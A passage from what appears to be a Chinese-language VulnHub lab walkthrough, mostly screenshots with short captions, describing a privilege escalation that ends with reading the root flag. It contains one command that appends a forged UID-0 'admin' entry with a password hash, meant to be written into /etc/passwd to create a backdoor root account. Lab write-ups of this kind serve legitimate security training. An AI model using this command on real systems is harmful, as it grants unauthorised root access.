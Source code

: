 ![image-20241206224526598](vulnhub靶场实战/image-20241206224526598.png)	

```
将这个伪造的账户格式放入一个文件，并使用root权限把这个文件写入到/etc/passwd文件中，从而伪造root用户。
echo 'admin:$1$admin$LClYcRe.ee8dQwgrFc5nz.:0:0:root:/root:/bin/bash' >> /tmp/passwd
```

![image-20241206225014897](vulnhub靶场实战/image-20241206225014897.png)	

```
登录伪造的admin用户，即可发现拥有root权限。
```

![image-20241206225141056](vulnhub靶场实战/image-20241206225141056.png)	

```
最后以root用户获得root目录下的flag文件。
```

![image-20241206225220703](vulnhub靶场实战/image-20241206225220703.png)	
